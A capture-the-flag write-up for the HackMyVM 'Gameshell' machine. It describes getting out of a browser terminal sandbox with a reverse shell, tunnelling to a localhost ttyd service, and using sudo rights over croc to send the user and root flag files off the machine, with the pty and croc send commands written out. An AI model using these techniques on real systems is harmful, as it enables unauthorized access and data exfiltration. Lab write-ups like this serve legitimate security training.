# Gameshell Writeup: From Sandbox Terminal to Root Access

**Platform:** HackMyVM  
**Difficulty:** Easy  
**Date:** December 23, 2025  
**Category:** Web  
**Tags:** Reverse Shell, Privilege Escalation, SSH Tunneling

## Challenge Details

### Description

In this writeup, I break down the exploitation process of GameShell, a unique machine on HackMyVM. This box challenges your ability to escape restricted shell environments, perform lateral movement via local port forwarding, and leverage administrative tools for privilege escalation.

### Techniques Used
- Reverse shell
- SSH tunneling

### Tools Used
- SSH

---

This writeup is based on the Gameshell machine available in [HackMyVM](https://hackmyvm.eu).

## Enumeration

An initial Nmap scan revealed **three open ports** on the target system.



Based on the scan results:

- **Port 80** hosts an Apache web server
- **Port 7681** exposes a web‑accessible interactive terminal

## Web Enumeration



Visiting the web service on port 80 revealed a standard Apache website. No obvious information disclosure was identified, and directory brute‑forcing using Gobuster did not uncover any interesting endpoints.

Given the lack of attack surface on this service, focus was shifted to the interactive terminal exposed on port 7681.



The target website hosts **GameShell**, a browser-based interactive terminal designed as a learning platform for practicing Linux and Bash fundamentals.



Environment variable `$PATH` was configured to prioritize GameShell binaries (`/opt/gameshell/...`), ensuring commands are resolved from the controlled training environment. When navigating outside this directory tree, GameShell detects the escape and warns the user, confirming the session is sandboxed rather than a standard system shell.

Further testing revealed that the `$PATH` variable is reset after each command execution via wrapper Bash scripts. Any attempt to modify `$PATH` is reverted immediately. Additionally, the underlying user operates with minimal privileges, preventing access to sensitive binaries or writable locations. As a result, escaping the GameShell environment is not feasible through `$PATH` manipulation or standard shell abuse.

To gain better interaction with the system outside the browser‑based interface, a reverse shell was generated using **revshells** and executed from within GameShell.


A successful connection was received on our attacking machine using **Netcat**.



The shell was then stabilized using:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



Inspecting `/etc/passwd` revealed two local users:

1. eviden
2. silo



## WWW-DATA to EVIDEN

Upon inspecting the system processes, a running instance of ttyd was identified under the user eviden with PID 337. The process is configured to serve a terminal over HTTP on port 9876, specifically bound to the local loopback interface. This indicates that the web terminal is only accessible from localhost. Furthermore, the use of the `-c` flag reveals that basic authentication as gaining access to this service would provide an interactive shell with the privileges of the eviden user.


### Port Forwarding via SSH Tunnel

Since the ttyd service is restricted to localhost, an **SSH reverse tunnel** was used to expose port 9876 to our attacking machine.



Once forwarded, the ttyd instance became accessible via the browser, and authentication was performed using the credentials specified in the `-c` flag.

This provided a stable interactive shell as **eviden**.



The **eviden** user does not own the user flag, so privilege escalation was required to reach **silo** and eventually root.

Running sudo -l revealed an interesting misconfiguration: eviden can run the croc tool as root.



But what is croc?


You can find more details about this tool here: [link](https://github.com/schollz/croc)

Since `croc` can be executed with elevated privileges, it can be abused to transfer flags to our local machine.

```bash
sudo croc send /home/silo/user.txt
```



And then in our local machine, we use the secret code provided to get the flag.



The same technique was used to exfiltrate the root flag in /root/root.txt!

## Key Takeaways

This machine demonstrated:

1. How restricted localhost services can be exposed using SSH tunneling
2. The importance of local service enumeration
3. Abuse of trusted administrative tools (`croc`) for privilege escalation and file exfiltration

HAPPY HACKING! 🚀
